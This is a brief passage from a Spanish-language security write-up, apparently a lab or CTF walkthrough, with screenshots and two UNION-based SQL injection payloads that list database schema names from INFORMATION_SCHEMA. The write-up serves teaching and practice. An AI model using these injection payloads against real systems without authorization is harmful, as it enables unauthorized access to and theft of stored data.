 Como se nos está reportando la consulta entera, no hace falta que utilicemos `group_concat()` para mostrar todos los resultados en una misma línea. 
![Write-up Image](images/Screenshot_16.png)

***Payload:***
```
test" UNION SELECT SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

Aunque obviamente, también podemos hacerlo.
![Write-up Image](images/Screenshot_17.png)

***Payload:***
```
test" UNION SELECT group_concat(SCHEMA_NAME),2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
